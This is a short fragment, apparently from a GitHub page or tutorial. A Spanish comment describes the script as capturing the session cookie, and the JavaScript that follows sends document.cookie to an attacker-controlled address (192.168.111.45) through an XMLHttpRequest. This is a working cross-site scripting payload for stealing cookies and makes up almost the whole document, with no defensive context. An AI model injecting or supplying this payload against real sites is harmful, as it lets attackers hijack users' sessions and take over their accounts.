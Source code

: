 //Este script capta la cookie de sesión

```js
var request = new XMLHttpRequest();
request.open('GET', 'http://192.168.111.45/?cookie=' + document.cookie);
request.send();
```
